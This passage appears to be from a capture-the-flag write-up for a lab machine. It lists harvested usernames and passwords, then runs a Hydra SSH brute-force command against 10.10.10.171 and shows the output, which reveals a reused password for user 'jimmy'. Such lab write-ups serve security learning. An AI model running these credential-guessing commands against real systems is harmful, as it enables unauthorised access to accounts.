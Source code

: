 ```
cat users.txt                                                  
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ root
   2   │ jimmy
   3   │ joanna
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

cat pass.txt                  
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pass.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ test
   2   │ admin
   3   │ n1nj4W4rri0R!
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```

Let's start the hydra.

```
hydra -L "users.txt" -P "pass.txt" -e nsr -s 22 ssh://10.10.10.171
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-22 17:27:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 18 login tries (l:3/p:6), ~2 tries per task
[DATA] attacking ssh://10.10.10.171:22/
[22][ssh] host: 10.10.10.171   login: jimmy   password: n1nj4W4rri0R!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-22 17:27:58
```
- -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login.

Well done! we found a reused password for the user jimmy.

